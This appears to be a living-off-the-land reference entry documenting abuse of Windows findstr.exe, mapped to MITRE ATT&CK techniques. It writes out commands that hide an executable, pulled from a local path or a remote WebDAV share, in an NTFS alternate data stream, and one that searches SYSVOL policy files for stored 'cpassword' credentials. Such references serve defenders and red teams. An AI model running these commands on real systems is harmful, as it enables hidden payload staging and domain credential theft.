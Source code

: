 ## Findstr.exe

* Functions: Add ADS, Search

```
findstr /V /L W3AllLov3DonaldTrump c:\ADS\file.exe > c:\ADS\file.txt:file.exe    

findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe    

findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Full path:
```
c:\windows\system32\findstr.exe
c:\windows\sysWOW64\findstr.exe
```

Notes:
Some specific details about the binary file.


 
MITRE ATT&CK:
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)
* [Path Interception](https://attack.mitre.org/wiki/Technique/T1034)
